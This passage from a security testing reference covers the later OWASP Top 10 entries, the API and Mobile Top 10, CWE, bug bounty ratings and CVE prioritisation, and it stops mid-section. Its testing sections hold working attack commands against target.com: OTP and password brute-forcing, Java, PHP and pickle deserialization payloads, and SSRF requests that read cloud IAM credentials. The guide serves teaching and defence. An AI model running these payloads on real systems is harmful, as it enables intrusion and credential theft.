- Trusting client-side validation without server-side checks
- Insufficient separation of duties in multi-step processes
- No security requirements in software development lifecycle

**Real-World Example:**
An airline booking app allows users to enter their own ticket price in a hidden HTML field. Without server-side validation, attackers submit bookings with `price=0.01` and receive tickets nearly free. This is a design flaw — the architecture trusted client-submitted prices.

**Testing Approach:**
```bash
# Test rate limiting on authentication
for i in $(seq 1 20); do
  response=$(curl -s -X POST https://target.com/api/auth/login \
    -H "Content-Type: application/json" \
    -d "{\"email\":\"test@example.com\",\"password\":\"wrong$i\"}")
  echo "Attempt $i: $(echo $response | jq -r '.message // .error // "no message"')"
done

# Test OTP brute force (should lock after N attempts)
for code in $(seq 100000 100999); do
  curl -s -X POST https://target.com/api/verify-otp \
    -d "code=$code&user=victim@example.com" | grep -v "invalid"
done

# Test business logic — price manipulation via Burp Suite
# 1. Add item to cart, intercept checkout POST
# 2. Modify price/amount fields
# 3. Submit and verify server rejects or accepts
```

**Remediation:**
- Conduct threat modeling (STRIDE, PASTA, LINDDUN) during design phase
- Define security requirements as part of user stories and acceptance criteria
- Implement server-side validation for all business logic rules
- Enforce rate limiting and CAPTCHA on sensitive flows
- Use the principle of least privilege in system architecture
- Conduct security design reviews before implementation begins

---

### A05:2021 — Security Misconfiguration

**Description:**
Security misconfiguration is the most commonly observed vulnerability class in real-world assessments. It occurs when security settings are not defined, implemented, or maintained correctly across the application stack — from infrastructure and OS to database and application frameworks.

**Common Vulnerability Patterns:**
- Default credentials in use (admin/admin, admin/password, root/root)
- Open cloud storage (S3 buckets, Azure Blob, GCS buckets publicly accessible)
- Directory listing enabled exposing file structure
- Detailed error messages and stack traces returned to users
- Unnecessary services, ports, or protocols enabled
- Missing security HTTP headers (CSP, X-Frame-Options, HSTS, X-Content-Type)
- Unpatched software on production systems

**Real-World Example:**
Capital One 2019 breach — An AWS WAF misconfiguration allowed Server-Side Request Forgery (SSRF) to the EC2 metadata service, exposing IAM role credentials. These credentials had excessive permissions, allowing the attacker to download 100M+ customer records from S3.

**CVE Examples:**
- `CVE-2017-5638` — Apache Struts 2 RCE: default config allowed Content-Type OGNL injection

**Testing Approach:**
```bash
# Security header analysis
curl -sI https://target.com | grep -iE \
  "x-frame-options|content-security-policy|strict-transport|x-content-type|permissions-policy"

# Check for missing headers using nikto
nikto -h https://target.com -Tuning x

# Default credential testing
nmap --script http-default-accounts -p 80,443,8080,8443 target.com

# Directory enumeration
gobuster dir -u https://target.com \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -x php,asp,aspx,txt,conf,bak -t 40

# AWS S3 bucket access
aws s3 ls s3://company-backup --no-sign-request
aws s3 cp s3://company-backup/secret.txt . --no-sign-request

# Cloud metadata SSRF test (from within a cloud VM or via SSRF)
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

**Remediation:**
- Follow CIS Benchmarks for all operating systems, web servers, databases
- Implement automated configuration scanning in CI/CD (Checkov, tfsec, cfn-nag)
- Remove default accounts or enforce immediate password change
- Disable directory listings, version disclosure, and debug modes in production
- Implement all recommended security HTTP headers
- Conduct regular cloud configuration audits using ScoutSuite, Prowler, or cloud-native tools

---

### A06:2021 — Vulnerable and Outdated Components

**Description:**
This risk focuses on using software components — libraries, frameworks, middleware, OS packages — that contain known vulnerabilities. Modern applications rely on hundreds of third-party dependencies, making this attack surface extremely large. Log4Shell demonstrated that a single transitive dependency can affect thousands of applications globally.

**Common Patterns:**
- Outdated libraries with published CVEs in production
- No inventory of components (no SBOM)
- Pulling dependencies without integrity verification
- Unpatched OS and middleware on production servers
- Docker base images with vulnerable packages

**Real-World Example:**
Equifax 2017 — Apache Struts 2 (CVE-2017-5638) was patched 2 months before the breach. Equifax had not applied the patch to one web-facing application, resulting in 147 million consumer records being exposed. A single unpatched dependency caused one of the largest breaches in history.

**CVE Examples:**
- `CVE-2021-44228` — Log4Shell (Apache Log4j 2.0-beta9 through 2.14.1)
- `CVE-2017-5638` — Apache Struts 2 OGNL RCE
- `CVE-2021-42013` — Apache HTTP Server path traversal and RCE

**Testing Approach:**
```bash
# Python application dependency audit
pip install safety
safety check -r requirements.txt

# Node.js dependency audit
npm audit
npm audit --json | jq '.vulnerabilities | to_entries[] | select(.value.severity == "critical")'

# Java — OWASP Dependency Check
dependency-check.sh --project "MyApp" \
  --scan /app \
  --format HTML \
  --out /reports/dependency-check

# Container image vulnerability scanning
trivy image --severity CRITICAL,HIGH nginx:latest
grype docker:nginx:latest

# Ruby
bundle audit check --update

# Check running web server version
curl -sI https://target.com | grep -iE "server:|x-powered-by"
```

**Remediation:**
- Generate and maintain a Software Bill of Materials (SBOM) for all applications
- Subscribe to security advisories for all dependencies (GitHub Dependabot, Snyk)
- Integrate SCA (Software Composition Analysis) into CI/CD pipeline
- Pin dependency versions and verify checksums/signatures
- Regularly scan container images in registry (Harbor, ECR, GCR) for vulnerabilities
- Establish a patching SLA: Critical within 24h, High within 7 days

---

### A07:2021 — Identification and Authentication Failures

**Description:**
Formerly "Broken Authentication," this category covers weaknesses in confirming user identity, authentication, and session management. Failures allow attackers to assume other users' identities temporarily or permanently.

**Common Patterns:**
- Weak or default passwords permitted without complexity requirements
- No protection against brute force or credential stuffing attacks
- Weak or predictable session tokens
- Sessions not properly invalidated after logout or timeout
- Missing multi-factor authentication (MFA)
- Passwords stored insecurely (cleartext, weak hash)
- Session tokens exposed in URLs (appears in server logs)

**Real-World Example:**
In 2021, the Twitch breach exposed source code showing that session tokens were stored insecurely. The "Rockyou2021" compilation of 8.4 billion compromised credentials enables credential stuffing attacks against any service without MFA — attackers automate testing billions of username/password pairs.

**CVE Examples:**
- `CVE-2020-5902` — F5 BIG-IP: authentication bypass via path traversal allows unauthenticated RCE
- `CVE-2021-26084` — Confluence Server: OGNL injection allowing unauthenticated RCE

**Testing Approach:**
```bash
# Credential stuffing — test rate limiting and lockout
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt \
  target.com https-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# Test for account lockout after N failed attempts
python3 << 'EOF'
import requests
for i in range(20):
    r = requests.post("https://target.com/login",
                      json={"username": "admin", "password": f"wrong{i}"})
    print(f"Attempt {i+1}: {r.status_code} - {r.json().get('message','')}")
EOF

# JWT analysis and attack
# Install: pip3 install jwt-tool
python3 jwt_tool.py YOUR.JWT.TOKEN -T  # Tamper mode
python3 jwt_tool.py YOUR.JWT.TOKEN -X a  # Algorithm confusion attack

# Check session cookie security flags
curl -c /tmp/cookies.txt -b /tmp/cookies.txt https://target.com/login \
  -d "user=test&pass=test" -D - | grep -i "set-cookie"
# Look for: Secure; HttpOnly; SameSite=Strict
```

**Remediation:**
- Enforce a minimum 12-character password policy; blocklist common passwords (top 10k)
- Implement MFA (TOTP, hardware keys) for all sensitive accounts
- Set cookie attributes: `Secure`, `HttpOnly`, `SameSite=Strict`
- Invalidate sessions on logout, password change, and after configurable inactivity
- Implement progressive delays or CAPTCHA after 3–5 failed login attempts
- Use a well-tested session management library — do not implement your own

---

### A08:2021 — Software and Data Integrity Failures

**Description:**
New in 2021 (merged from and expanded beyond Insecure Deserialization). This category covers code and infrastructure that does not protect against integrity violations — including deserializing attacker-controlled data, CI/CD pipeline compromises, and unsigned software updates.

**Common Patterns:**
- Insecure deserialization of Java, PHP, Python pickle, Ruby Marshal objects
- Auto-update features that download and execute code without signature verification
- Malicious packages inserted into build pipelines (typosquatting, compromised maintainer accounts)
- Software distributed without digital signatures
- SolarWinds-style build system compromises

**Real-World Example:**
SolarWinds Orion supply chain attack (December 2020) — attackers compromised SolarWinds' build system and inserted the SUNBURST backdoor into legitimate signed Orion updates. Approximately 18,000 organizations installed the trojanized update, including the US Treasury, State Department, and CISA itself.

**CVE Examples:**
- `CVE-2015-4852` — Oracle WebLogic: Java deserialization RCE via T3 protocol
- `CVE-2019-17531` — Jackson Databind: polymorphic deserialization allowing RCE

**Testing Approach:**
```bash
# Test Java deserialization vulnerability
# Install ysoserial: https://github.com/frohoff/ysoserial
java -jar ysoserial.jar CommonsCollections6 "whoami" > payload.ser
curl -s -X POST https://target.com/api/object \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary @payload.ser

# PHP object injection test
# Send serialized object: O:4:"User":1:{s:4:"role";s:5:"admin";}
curl -s "https://target.com/profile" \
  -d "data=O:4:\"User\":1:{s:4:\"role\";s:5:\"admin\";}"

# Python pickle deserialization test
python3 -c "
import pickle, os, base64
class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id > /tmp/pwned',))
print(base64.b64encode(pickle.dumps(Exploit())).decode())
"
```

**Remediation:**
- Sign all software artifacts (code, containers, binaries); verify signatures before deployment
- Use cryptographic checksums (SHA-256) for all downloads; verify before extraction/execution
- Implement SLSA (Supply-chain Levels for Software Artifacts) framework in build pipelines
- Scan CI/CD pipelines for suspicious dependencies with Snyk, Semgrep, or similar
- Never deserialize untrusted data; prefer JSON/XML with schema validation over binary serialization
- Implement software composition analysis (SCA) and package signing (Sigstore, cosign)

---

### A09:2021 — Security Logging and Monitoring Failures

**Description:**
Without adequate logging and monitoring, breaches cannot be detected, contained, or investigated. The average mean time to detect (MTTD) a breach was 197 days in 2020. This category encompasses missing logs, insufficient detail in logs, failure to monitor logs, and failure to respond to alerts.

**Common Patterns:**
- Authentication events (success and failure) not logged
- Critical transactions not logged
- Logs stored only locally without centralized aggregation
- Warning and error conditions not generating alerts
- Log injection — attackers forge log entries to cover tracks
- No incident response plan triggered by alerts

**Real-World Example:**
The Yahoo! breach (2013) went undetected until 2016 — a three-year detection gap. 3 billion accounts were compromised with state-sponsored actors maintaining persistent access. Inadequate logging meant there was no anomaly detection for massive data exfiltration.

**Testing Approach:**
```bash
# Test log injection vulnerability
curl "https://target.com/login" \
  -d "username=admin%0d%0a[2024-01-01 00:00:00] INFO: User admin logged in successfully&password=x"

# Test if failed logins are logged
# Perform 10 failed logins, then request logs from /var/log/auth.log (if accessible)
# Or check if failed logins generate alerts in monitoring system

# Test if 404/403 responses generate alerts
for i in $(seq 1 50); do
  curl -s "https://target.com/admin-$(cat /dev/urandom | tr -dc a-z | head -c 8)" -o /dev/null
done
# Alert should fire on enumeration attempt
```

**Remediation:**
- Log all authentication events: successes, failures, lockouts, MFA events
- Log all access control failures (authorization denied events)
- Log all input validation failures that may indicate attack attempts
- Centralize logs in a SIEM: Splunk, Elastic Stack (ELK), Microsoft Sentinel, Graylog
- Implement real-time alerting with defined thresholds for anomalous patterns
- Protect logs from tampering: immutable storage, cryptographic signing, WORM media
- Define and test incident response playbooks for common alert types
- Set log retention policies meeting compliance requirements (typically 1–7 years)

---

### A10:2021 — Server-Side Request Forgery (SSRF)

**Description:**
SSRF flaws occur when a web application fetches a remote resource using a user-supplied URL without sufficient validation. Attackers can coerce the server to make requests to internal systems, cloud metadata services, or other network resources that should be inaccessible from the internet.

**Common Attack Vectors:**
- Document conversion services (HTML-to-PDF, URL preview generators)
- Webhook configuration fields that accept arbitrary URLs
- Image loading from external URLs
- File import features accepting URLs
- Redirect handling vulnerabilities

**Attack Targets:**
- AWS/GCP/Azure cloud metadata API (`169.254.169.254`)
- Internal services not exposed to the internet (Redis, Elasticsearch, admin panels)
- Docker socket (`unix:///var/run/docker.sock`)
- Internal network scanning and port discovery

**Real-World Example:**
Capital One breach (2019) — An EC2 instance running a WAF had an SSRF vulnerability. The attacker retrieved IAM credentials from `http://169.254.169.254/latest/meta-data/iam/security-credentials/WAF-Role`. These credentials had `s3:GetObject` permission on all S3 buckets, enabling exfiltration of 100M+ customer records.

**CVE Examples:**
- `CVE-2021-26855` — Microsoft Exchange ProxyLogon: SSRF component enabling pre-auth RCE chain
- `CVE-2022-22954` — VMware Workspace ONE Access SSTI via SSRF allowing RCE

**Testing Approach:**
```bash
# Basic SSRF test — cloud metadata access
curl "https://target.com/api/fetch?url=http://169.254.169.254/latest/meta-data/"
curl "https://target.com/convert?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Internal service enumeration via SSRF
for port in 22 25 80 443 3306 5432 6379 8080 8443 9200 27017; do
  result=$(curl -s --max-time 3 "https://target.com/api/fetch?url=http://127.0.0.1:$port/")
  if echo "$result" | grep -qiE "ssh|http|mysql|postgres|redis|elasticsearch|mongo"; then
    echo "Port $port appears open: $result" | head -c 200
  fi
done

# Blind SSRF using out-of-band detection (interactsh)
# Start interactsh server or use https://app.interactsh.com
curl "https://target.com/webhook?url=https://YOUR-ID.oast.pro/test"

# SSRF bypass techniques
# IP encoding bypasses
curl "https://target.com/fetch?url=http://0x7f000001/"  # Hex encoding of 127.0.0.1
curl "https://target.com/fetch?url=http://2130706433/"  # Decimal encoding
curl "https://target.com/fetch?url=http://127.1/"       # Short form
curl "https://target.com/fetch?url=http://[::1]/"       # IPv6 loopback
```

**Remediation:**
- Implement a strict allowlist of permitted URL destinations — deny all others by default
- Block all requests to loopback addresses (127.0.0.1, ::1) and private IP ranges
- Block cloud metadata addresses: 169.254.169.254, 100.100.100.200 (Alibaba), fd00:ec2::254
- Disable HTTP redirect following in URL fetching functions
- Implement network-level egress filtering from application servers
- Use IMDSv2 (Instance Metadata Service v2) which requires a token — prevents SSRF metadata access
- Return generic errors when URL fetching fails — do not leak internal error details

---

## 6. OWASP API Security Top 10 (2023)

> APIs underpin modern digital infrastructure. The 2023 edition of the OWASP API Security Top 10 reflects the evolved threat landscape for API-first architectures.

| ID | Name | Description |
|---|---|---|
| **API1:2023** | Broken Object Level Authorization (BOLA) | APIs expose object identifiers that attackers manipulate to access other users' resources. This is the most prevalent and impactful API vulnerability class. Example: `GET /api/v1/orders/5523` → change `5523` to `5522` to access another user's order. |
| **API2:2023** | Broken Authentication | Weak or missing authentication: invalid token acceptance, no token expiry enforcement, predictable token formats, JWT with `alg:none` accepted, weak signing secrets. Example: JWT with HS256 signed with password `secret`. |
| **API3:2023** | Broken Object Property Level Authorization | APIs expose full objects when responses should be filtered, or accept more properties than allowed (mass assignment). Example: `PATCH /user/profile` accepts `{"role": "admin"}` and promotes the user. |
| **API4:2023** | Unrestricted Resource Consumption | No rate limiting or quota enforcement allows attackers to exhaust resources — CPU, memory, bandwidth, financial costs. Example: No limit on `POST /api/sms/send` — attacker sends 1 million SMS messages via API. |
| **API5:2023** | Broken Function Level Authorization | Administrative or privileged API functions are accessible to regular users. Example: Regular user can call `DELETE /api/v1/admin/users/{id}` and delete any account. |
| **API6:2023** | Unrestricted Access to Sensitive Business Flows | Automated exploitation of legitimate business flows in ways not intended. Example: Scalper bots buying limited-edition sneakers via API before human users can; bulk account creation for spam. |
| **API7:2023** | Server-Side Request Forgery (SSRF) | API endpoints accept and process URLs from user input, allowing attackers to make server-side requests to internal resources. Example: `POST /api/v1/import {"url": "http://internal-db:5432/"}` |
| **API8:2023** | Security Misconfiguration | Default API keys, permissive CORS (`Access-Control-Allow-Origin: *`), verbose error responses, unnecessary HTTP methods (PUT/DELETE) enabled, no TLS, debug endpoints in production. |
| **API9:2023** | Improper Inventory Management | Outdated API versions in production, undocumented internal APIs, beta endpoints with weaker security controls. Example: `v1` API lacks authentication that `v3` enforces; Shadow API `/internal/debug` exposed publicly. |
| **API10:2023** | Unsafe Consumption of APIs | Applications integrate third-party APIs and blindly trust their responses without input validation or sanitization, creating injection paths through the upstream API. Example: Trusting a payment processor's redirect URL without validation allows open redirect attacks. |

---

## 7. OWASP Mobile Top 10 (2024)

> The OWASP Mobile Top 10 (2024 edition) addresses security risks specific to iOS and Android mobile applications.

| ID | Name | Description |
|---|---|---|
| **M1:2024** | Improper Credential Usage | API keys, passwords, tokens, and certificates hardcoded in APK/IPA files. Insecure transmission of credentials. Storing credentials in plaintext SharedPreferences or NSUserDefaults. Detection: `strings app.apk`, jadx decompilation. |
| **M2:2024** | Inadequate Supply Chain Security | Malicious third-party SDKs, compromised build environments, supply chain attacks targeting mobile development pipelines. Adware/spyware SDKs included unknowingly. |
| **M3:2024** | Insecure Authentication and Authorization | Weak biometric implementation, client-side authentication decisions, bypassing authentication via memory patching or SSL unpinning tools like Frida and Objection. |
| **M4:2024** | Insufficient Input/Output Validation | Trusting data from backend APIs without validation, passing user input to native code (SQLite, WebView) without sanitization, enabling XSS via WebView `addJavascriptInterface`. |
| **M5:2024** | Insecure Communication | Using HTTP instead of HTTPS, accepting any SSL certificate (trust-all certificate managers), no certificate pinning, transmitting PII in URL query parameters (logged by servers and proxies). |
| **M6:2024** | Inadequate Privacy Controls | Collecting excessive device data (IMEI, contacts, location), sharing user data with advertising SDKs without disclosure, logging PII in application logs readable by other apps. |
| **M7:2024** | Insufficient Binary Protections | No root/jailbreak detection, no code obfuscation, no anti-tampering (no integrity checks on app binary), no debugger detection — making reverse engineering trivial. |
| **M8:2024** | Security Misconfiguration | Exported Android Activities/ContentProviders accessible to other apps, iOS ATS (App Transport Security) disabled in Info.plist, debug flags enabled in production builds, overly permissive file permissions. |
| **M9:2024** | Insecure Data Storage | SQLite databases without encryption, sensitive data in External Storage (SD card), screenshots cached by Android Recent Apps, backups enabled with sensitive data (android:allowBackup=true). |
| **M10:2024** | Insufficient Cryptography | Using ECB mode encryption (reveals data patterns), IV reuse in CBC mode, using MD5/SHA1 for security purposes, custom cryptographic implementations, insufficient key sizes. |

---

## 8. CWE — Common Weakness Enumeration

### 8.1 What Is CWE?

**CWE (Common Weakness Enumeration)** is a community-developed formal list and categorization of software and hardware weakness types — the root causes of security vulnerabilities. Maintained by MITRE at `https://cwe.mitre.org` and sponsored by CISA.

**CWE's structure:**
- **Pillars** — Most abstract (e.g., CWE-664: Improper Control of a Resource)
- **Classes** — Abstract weakness types (e.g., CWE-20: Improper Input Validation)
- **Base Weaknesses** — Primary mappable weakness types (e.g., CWE-89: SQL Injection)
- **Variants** — Highly specific weaknesses (e.g., CWE-643: XPath Injection)
- **Composites** — Weakness clusters that require multiple CWEs together

**CWE is used by:**
- SAST/DAST tools to classify findings
- NVD to tag CVEs with their root cause
- OWASP to categorize the Top 10
- PCI DSS and other compliance frameworks
- Bug tracking systems for weakness classification

### 8.2 CWE vs CVE — The Key Distinction

| Dimension | CWE | CVE |
|---|---|---|
| **Level of abstraction** | Generic weakness type | Specific vulnerability instance |
| **Scope** | Applies to entire weakness category | One specific product/version/configuration |
| **Example** | CWE-89: SQL Injection weakness type | CVE-2021-XXXXX: SQLi in Product X v1.2 |
| **Who uses it** | Developers, SAST tool vendors, educators | Security analysts, patch managers, CSIRT |
| **Count** | ~900 distinct weakness types | 200,000+ individual CVEs |
| **Goal** | Prevent classes of bugs | Identify and patch specific bugs |

### 8.3 Key CWEs Every Penetration Tester Must Know

| CWE ID | Name | Description | Primary Testing Technique |
|---|---|---|---|
| **CWE-79** | Cross-Site Scripting (XSS) | User input rendered as HTML/JS without encoding | Inject `<script>`, event handlers, `javascript:` URIs |
| **CWE-89** | SQL Injection | SQL special chars not neutralized in queries | `' OR 1=1--`, sqlmap, manual payloads |
| **CWE-22** | Path Traversal | Filename not sanitized, allows `../../` traversal | `../../../etc/passwd`, URL encoding bypasses |
| **CWE-287** | Improper Authentication | Authentication logic can be bypassed | JWT none alg, SQL bypass, cookie tampering |
| **CWE-798** | Hardcoded Credentials | Credentials embedded in source code | grep, source decompilation, .env exposure |
| **CWE-502** | Deserialization of Untrusted Data | Attacker-controlled deserialization | ysoserial (Java), pickle (Python) |
| **CWE-611** | XML External Entity (XXE) | External entities in XML parsed | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` |
| **CWE-918** | Server-Side Request Forgery | Server fetches attacker-controlled URLs | Internal URL injection, cloud metadata access |
| **CWE-78** | OS Command Injection | User input reaches shell commands | `; id`, `| whoami`, `&& cat /etc/passwd` |
| **CWE-434** | Unrestricted File Upload | No validation of uploaded file types | Upload PHP/JSP webshells |
| **CWE-352** | Cross-Site Request Forgery (CSRF) | Missing CSRF token on state-changing requests | Forge requests from attacker-controlled site |
| **CWE-200** | Information Exposure | Sensitive data disclosed to unauthorized users | Error messages, debug pages, verbose headers |
| **CWE-284** | Improper Access Control | Resources not properly restricted | Enumerate endpoints, test without authentication |
| **CWE-306** | Missing Auth for Critical Function | Sensitive function accessible without auth | Access admin functions without logging in |

### 8.4 CWE Top 25 Most Dangerous Software Weaknesses (2024)

| Rank | CWE ID | Weakness Name |
|---|---|---|
| 1 | **CWE-79** | Improper Neutralization of Input During Web Page Generation (XSS) |
| 2 | **CWE-787** | Out-of-bounds Write |
| 3 | **CWE-89** | Improper Neutralization of SQL Command Special Elements (SQL Injection) |
| 4 | **CWE-416** | Use After Free |
| 5 | **CWE-78** | Improper Neutralization of OS Command Special Elements (OS Command Injection) |
| 6 | **CWE-20** | Improper Input Validation |
| 7 | **CWE-125** | Out-of-bounds Read |
| 8 | **CWE-22** | Improper Limitation of a Pathname (Path Traversal) |
| 9 | **CWE-352** | Cross-Site Request Forgery (CSRF) |
| 10 | **CWE-434** | Unrestricted Upload of File with Dangerous Type |
| 11 | **CWE-862** | Missing Authorization |
| 12 | **CWE-476** | NULL Pointer Dereference |
| 13 | **CWE-287** | Improper Authentication |
| 14 | **CWE-190** | Integer Overflow or Wraparound |
| 15 | **CWE-502** | Deserialization of Untrusted Data |
| 16 | **CWE-77** | Improper Neutralization of Command Special Elements (Command Injection) |
| 17 | **CWE-119** | Improper Restriction of Operations within Bounds of Memory Buffer |
| 18 | **CWE-798** | Use of Hard-coded Credentials |
| 19 | **CWE-918** | Server-Side Request Forgery (SSRF) |
| 20 | **CWE-306** | Missing Authentication for Critical Function |
| 21 | **CWE-362** | Concurrent Execution Using Shared Resource with Improper Synchronization (Race Condition) |
| 22 | **CWE-269** | Improper Privilege Management |
| 23 | **CWE-94** | Improper Control of Generation of Code (Code Injection) |
| 24 | **CWE-863** | Incorrect Authorization |
| 25 | **CWE-276** | Incorrect Default Permissions |

---

## 9. Bug Bounty Severity Ratings

### 9.1 HackerOne Severity Ratings

HackerOne uses CVSS v3 as the primary scoring mechanism, mapped to severity tiers:

| Severity | CVSS Range | Typical Bounty Range | Response SLA |
|---|---|---|---|
| **Critical** | 9.0 – 10.0 | $5,000 – $1,000,000+ | 24–48 hours |
| **High** | 7.0 – 8.9 | $1,000 – $20,000 | 72 hours |
| **Medium** | 4.0 – 6.9 | $100 – $2,500 | 7 days |
| **Low** | 0.1 – 3.9 | $50 – $500 | 30 days |
| **Informational** | 0.0 | $0 (no bounty) | Best effort |

**HackerOne-specific notes:**
- Programs can customize bounty amounts independently of CVSS
- Some programs use their own severity definitions that deviate from CVSS
- Duplicate reports, out-of-scope findings, and N/A ratings receive no bounty
- Triage teams may re-rate severity based on program-specific impact

### 9.2 Bugcrowd Priority Ratings (P1–P5)

Bugcrowd uses its proprietary **VRT (Vulnerability Rating Taxonomy)** rather than raw CVSS:

| Priority | Bugcrowd Severity | Description | CVSS Equivalent |
|---|---|---|---|
| **P1** | Critical | Full account takeover, RCE on production, data breach | 9.0 – 10.0 |
| **P2** | Severe | Stored XSS without interaction, SSRF to internal, significant privilege escalation | 7.0 – 8.9 |
| **P3** | Moderate | Reflected XSS, CSRF on sensitive actions, PII disclosure | 4.0 – 6.9 |
| **P4** | Low | Missing headers, clickjacking without sensitive functions, verbose errors | 0.1 – 3.9 |
| **P5** | Informational | Best practice recommendations, cosmetic issues | 0.0 |

**Bugcrowd VRT advantage:** Provides structured guidance on how specific vulnerability types are rated rather than relying solely on CVSS calculation.

### 9.3 Intigriti Severity Ratings

Intigriti employs a 5-tier system focused on real-world business impact rather than theoretical CVSS scores:

| Level | Name | Typical Findings |
|---|---|---|
| **Critical** | Catastrophic impact | Unauthenticated RCE, full account takeover at scale, SQLi dumping production DB |
| **High** | Significant impact | Stored XSS on main domain, IDOR exposing PII, authentication bypass on any user |
| **Medium** | Moderate impact | Self-XSS with demonstrated impact chain, CSRF on account settings, limited info disclosure |
| **Low** | Minor impact | Rate limiting bypass, error messages with stack traces, open redirect |
| **Informational** | No direct impact | Missing headers, best practice deviations, out-of-scope items of interest |

### 9.4 Cross-Platform Severity Comparison Table

| Vulnerability Type | HackerOne | Bugcrowd | Intigriti | Typical CVSS | Notes |
|---|---|---|---|---|---|
| Unauthenticated RCE on production | Critical | P1 | Critical | 9.8 – 10.0 | Highest priority across all platforms |
| Full account takeover (no interaction) | Critical | P1 | Critical | 9.0 – 10.0 | Universal top rating |
| Stored XSS (no user interaction) | High | P2 | High | 7.0 – 8.5 | Impact depends on placement (admin vs user) |
| SQL injection (data read) | High | P2 | High | 7.5 – 9.8 | Score varies with scope |
| SSRF to internal metadata | High | P2 | High | 7.2 – 8.8 | Cloud environments rate higher |
| IDOR exposing PII | High | P2 | High | 6.5 – 8.6 | Depends on data sensitivity |
| Reflected XSS | Medium | P3 | Medium | 4.3 – 6.1 | Requires user interaction |
| CSRF on sensitive action | Medium | P3 | Medium | 4.3 – 6.5 | Sensitive action elevates severity |
| Insecure Direct Object Reference (low data) | Medium | P3 | Medium | 4.0 – 5.4 | Depends on data exposed |
| Open redirect | Low | P4 | Low | 3.1 – 4.3 | Higher if combined with phishing |
| Missing HSTS | Informational | P5 | Informational | 0.0 | Defense-in-depth only |
| Self-XSS (no impact chain) | Informational | P5 | Informational | 0.0 – 2.0 | Not exploitable in isolation |
| CSRF (no sensitive action) | Low | P4 | Low | 2.6 – 3.5 | Context-dependent |

> **Context is king in bug bounties.** A reflected XSS on the admin panel targeting admin cookies may be rated Critical, while the same XSS on a marketing newsletter form is Informational. Always demonstrate maximum impact.

---

## 10. Vulnerability Prioritization Frameworks

### 10.1 Why CVSS Alone Is Not Enough

CVSS is an excellent tool for communicating *how severe* a vulnerability is in the abstract — but it was never designed to answer the operational question: **"Which vulnerability should I patch first?"**

**Five key limitations of CVSS-only prioritization:**

1. **Static nature** — A CVSS 9.8 assigned in 2019 does not change when a Metasploit module is released in 2024, even though the real-world risk has increased dramatically
2. **No exploitation context** — CVSS does not distinguish between a Critical vulnerability with zero known exploitation and one actively used by ransomware groups
3. **No asset context** — A CVSS 10.0 on an isolated lab server has less business risk than a CVSS 7.0 on your public authentication endpoint
4. **Alert fatigue** — Large organizations face thousands of open CVSS High/Critical findings; all cannot be fixed simultaneously
5. **Empirical mismatch** — Studies show only 5–7% of published CVEs are ever exploited in the wild; CVSS treats all High/Critical equally

### 10.2 EPSS + CVSS Combination Approach

Combining CVSS Base Score with EPSS probability produces significantly better prioritization than either metric alone:

**Formula concept:**
```
Effective Priority = CVSS_Score * EPSS_Probability * Asset_Criticality_Weight
```

**Recommended prioritization tiers:**

| CVSS Score | EPSS < 0.01 | EPSS 0.01 – 0.05 | EPSS 0.05 – 0.10 | EPSS > 0.10 |
|---|---|---|---|---|
| **Critical (9+)** | Patch in 30 days | Patch in 14 days | Patch in 7 days | **EMERGENCY — Patch Now** |
| **High (7–8.9)** | Patch in 60 days | Patch in 30 days | Patch in 14 days | Patch in 7 days |
| **Medium (4–6.9)** | 90-day cycle | 60-day cycle | 30-day cycle | 14 days |
| **Low (0.1–3.9)** | 120-day cycle | 90-day cycle | 60-day cycle | 30 days |

**Automation script to prioritize:**
```bash
#!/bin/bash
# Prioritize CVEs by CVSS + EPSS combined score

INPUT_FILE="scanner_output_cves.txt"
OUTPUT_FILE="prioritized_vulns.csv"

echo "CVE,CVSS,EPSS,Percentile,Priority" > "$OUTPUT_FILE"

while IFS=',' read -r cve cvss_score; do
  # Get EPSS data
  epss_data=$(curl -s "https://api.first.org/data/v1/epss?cve=$cve")
  epss=$(echo "$epss_data" | jq -r '.data[0].epss // "0"')
  percentile=$(echo "$epss_data" | jq -r '.data[0].percentile // "0"')

  # Determine priority
  priority="Low-Priority"
  if (( $(echo "$cvss_score >= 9.0" | bc -l) )) && (( $(echo "$epss >= 0.1" | bc -l) )); then
    priority="EMERGENCY"
  elif (( $(echo "$cvss_score >= 7.0" | bc -l) )) && (( $(echo "$epss >= 0.05" | bc -l) )); then
    priority="HIGH-URGENT"
  elif (( $(echo "$cvss_score >= 4.0" | bc -l) )) && (( $(echo "$epss >= 0.1" | bc -l) )); then
    priority="MEDIUM-URGENT"
  fi

  echo "$cve,$cvss_score,$epss,$percentile,$priority" >> "$OUTPUT_FILE"
  sleep 0.1  # Rate limiting

done < "$INPUT_FILE"

sort -t',' -k5 "$OUTPUT_FILE" | column -t -s','
```

### 10.3 CISA KEV — Known Exploited Vulnerabilities Catalog

The **CISA KEV (Known Exploited Vulnerabilities)** catalog is the gold standard for identifying actively exploited vulnerabilities that demand immediate attention.

**Key facts about CISA KEV:**
- URL: `https://www.cisa.gov/known-exploited-vulnerabilities-catalog`
- Maintained by CISA (U.S. Cybersecurity and Infrastructure Security Agency)
- Contains CVEs with **confirmed evidence of active exploitation** in the wild
- Federal civilian agencies (FCEB) are *mandated* to patch KEV items by due dates
- Contains 1,100+ CVEs as of 2026, with new entries added regularly
- Many KEV entries have moderate CVSS scores (below 7.0) but are actively weaponized

**Critical rule:** Any CVE on the CISA KEV catalog should be treated as the **highest possible priority**, regardless of CVSS score.

**Why KEV matters over CVSS alone:**
- `CVE-2020-1472` (Zerologon) — CVSS 10.0 AND in KEV
- `CVE-2021-40539` — CVSS 9.8 AND in KEV (Zoho ManageEngine)
- `CVE-2022-36537` — CVSS 7.5 (Medium-High) but in KEV — would be deprioritized without KEV
- `CVE-2023-23376` — Windows CLFS Driver privilege escalation, CVSS 7.8 but actively exploited by ransomware

**Automation for KEV monitoring:**
```bash
# Download the full KEV catalog
curl -s "https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json" \
  -o /tmp/kev_catalog.json

# Extract key fields
jq '.vulnerabilities[] | {cveID, vendorProject, product, vulnerabilityName, dateAdded, dueDate, shortDescription}' \
  /tmp/kev_catalog.json | head -100

# Check if specific CVEs from your scanner are in KEV
